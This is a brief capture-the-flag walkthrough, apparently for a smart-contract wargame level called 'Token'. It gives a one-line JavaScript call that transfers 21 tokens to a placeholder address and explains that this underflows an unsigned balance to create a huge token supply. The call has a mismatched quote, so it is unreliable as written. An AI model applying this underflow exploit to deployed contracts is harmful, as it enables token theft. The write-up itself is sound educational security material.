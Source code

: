 # Token

<details>
<summary>Answer</summary>
<p>

```js
await contract.transfer('Random_Address,'21')
```
Because the balance is an unit(always positive) you can underflow the transfer function logic and create a large amount of tokens<br></br>
Then click Submit
</p>
</details>